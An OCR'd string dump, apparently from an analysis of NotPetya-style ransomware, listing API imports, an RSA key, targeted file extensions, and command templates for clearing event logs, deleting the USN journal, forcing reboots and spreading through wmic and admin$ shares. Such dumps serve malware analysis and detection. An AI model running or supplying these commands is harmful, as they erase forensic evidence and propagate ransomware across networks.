 ```
CreateProcessW
GetEnvironmentvariableW
ConnectNamedPipe
CreateNamedPipeW
LoadLibraryA
VirtualAlloc
CryptGenRandom
CryptExportKey
CryptEncrypt
CryptGenKey
CryptDestoryKey
InitiateSystemShutdownExW
CreateProcessAsUserW
DhcpEnumSubnets
DhcpEnumSubnetClients
NetServerEnum
AdjustTokenPrivileges
perfc.dat
MIIBCgKCAQEAxP/VqKc0yLe9JhVqFMQGwUITO6WpXWnKSNQAYT0O65Cr8PjIQInTeHkXEjfO2n2JmURWV/uHB0ZrlQ/wcYJBwLhQ9EqJ3iDqmN19Oo7NtyEUmbYmopcq+YLIBZzQ2ZTK0A2DtX4GRKxEEFLCy7vP12EYOPXknVy/+mf0JFWixz29QiTf5oLu15wVLONCuEibGaNNpgq+CXsPwfITDbDDmdrRIiUEUw6o3pt5pNOskfOJbMan2TZu6zfhzuts7KafP5UA8/0Hmf5K3/F9Mf9SE68EZjK+cIiFlKeWndP0XfRCYXI9AJYCeaOu7CXF6U0AVNnNjvLeOn42LHFUK4o6JwIDAQAB
C:\Windows;
.3ds.7z.accdb.ai.asp.aspx.avhd.back.bak.c.cfg.conf.cpp.cs.ctl.dbf.disk.djvu.doc.docx.dwg.eml.fdb.gz.h.hdd.kdbx.mail.mdb.msg.nrg.ora.ost.ova.ovf.pdf.php.pmf.ppt.pptx.pst.pvi.py.pyc.rar.rtf.sln.sql.tar.vbox.vbs.vcb.vdi.vfd.vmc.vmdk.vmsd.vmx.vsdx.vsv.work.xls.xlsx.xvd.zip.
Microsoft Enhanced RSA and AES Cryptographic Provider
README.TXT
\\.\pipe\%ws
TERMSRV/
127.0.0.1
SeTcbPrivilege
SeShutdownPrivilege
SeDebugPrivilege
C:\Windows\
\cmd.exe
wevtutil cl Setup & wevtutil cl System & wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D %c:
schtasks %ws/Create /SC once /TN "" /TR "%ws" /ST %02d:%02d
at %02d:%02d %ws
shutdown.exe /r /f
/RU "SYSTEM"
dllhost.dat
-d C:\Windows\System32\rundll32.exe "C:\Windows\%s",#1
wbem\wmic.exe
%s /node:"%ws" /user:"%ws" /password:"%ws"
process call create "C:\Windows\System32\rundll32.exe \"C:\Windows\%s\" #1
\\%s\admin$
\\%ws\admin$\%ws
```

